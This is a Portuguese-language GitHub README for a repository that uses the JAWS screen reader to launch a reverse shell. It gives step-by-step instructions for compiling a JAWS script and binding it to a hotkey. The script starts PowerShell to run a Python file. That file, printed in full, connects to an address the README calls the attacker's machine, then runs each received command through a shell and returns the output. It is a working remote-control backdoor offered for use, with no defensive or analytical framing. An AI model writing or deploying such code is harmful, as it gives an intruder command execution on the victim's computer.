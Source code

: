 # Script de shell reverso para JAWS

Este repositório contém scripts para automatizar tarefas no JAWS (Job Access With Speech) usando uma combinação de scripts JAWS e scripts Python. O principal exemplo fornecido é uma configuração de shell reverso que utiliza o JAWS para iniciar o shell e o Python para estabelecer a conexão reversa.

## Estrutura do Repositório

- `NCPythonCall.jss`: Script JAWS para iniciar o processo de shell reverso.
- `ncat.py`: Script Python para estabelecer a conexão de shell reverso.

## Pré-requisitos

1. **JAWS Screen Reader**: Certifique-se de que o JAWS está instalado na sua máquina.
2. **Python**: Certifique-se de que o Python está instalado e acessível no PATH do sistema.
3. **Conhecimento em Scripting JAWS**: Entendimento básico de scripts JAWS.

## Instalação

### Importando e Usando o Script JAWS

1. **Baixe o Repositório**:
   - Clone ou baixe o repositório a partir do [GitHub](https://github.com/MatheusExner/JAWS_scripts).

2. **Abra o Gerenciador de Scripts JAWS**:
   - Pressione `Insert + 0` para abrir o Gerenciador de Scripts JAWS.

3. **Importe o Script**:
   - No Gerenciador de Scripts, vá em `Arquivo > Abrir` e navegue até o arquivo `NCPythonCall.jss` baixado.
   - Abra o arquivo para visualizar o script.

4. **Compile o Script**:
   - Pressione `Ctrl + Shift + D` para compilar o script.
   - Salve o script compilado com um nome significativo, por exemplo, `NCPythonCall.jsb`.

5. **Atribua um Atalho de Teclado**:
   - Para atribuir um atalho de teclado para executar seu script JAWS, vá em `Script > Modificar Atribuição de Tecla`.
   - Selecione o script `NCPythonCall`, pressione `Ctrl + Shift + K` e atribua um atalho de teclado (por exemplo, `Insert + Q`).

6. **Execute o Script**:
   - Pressione o atalho de teclado atribuído (`Insert + Q`) para executar o script.

### Configurando e Executando o Script Python

1. **Certifique-se de que o Python está Instalado**:
   - Baixe e instale o Python a partir do [site oficial](https://www.python.org/).

2. **Execute o Script Python**:
   - O script JAWS executará automaticamente o script Python se todos os caminhos estiverem corretamente configurados.

3. **Execução Manual (Opcional)**:
   - Para executar manualmente o script Python, abra o Prompt de Comando ou o PowerShell.
   - Navegue até o diretório que contém `ncat.py`.
   - Execute o script usando:
     ```sh
     python ncat.py
     ```

## Script JAWS: `NCPythonCall`

O script JAWS automatiza o processo de verificação dos componentes necessários e execução do script de shell reverso.

```jaws
Script NCPythonCall ()
Say ("Iniciando processo de shell reverso", OT_MESSAGE)

If FileExists ("C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe")
    Say ("powershell existe", OT_MESSAGE)
Else
    Say ("powershell não existe", OT_MESSAGE)
EndIf

If FileExists ("C:\\Users\\Matheus\\Desktop\\ncat.py")
    Say ("script encontrado", OT_MESSAGE)
Else
    Say ("script não encontrado", OT_MESSAGE)
EndIf

Run ("C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe python C:\\Users\\Matheus\\Desktop\\ncat.py")
EndScript
```

## Script python: `ncat.py`
O script Python estabelece uma conexão de shell reverso com a máquina especificada do atacante.
```python
import socket
import subprocess

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.114", 7890))

while True:
    command = s.recv(1024).decode("utf-8")
    if command.lower() == "exit":
        break
    if command:
        output = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout, stderr = output.communicate()
        response = stdout + stderr
        s.send(response)

s.close()
```

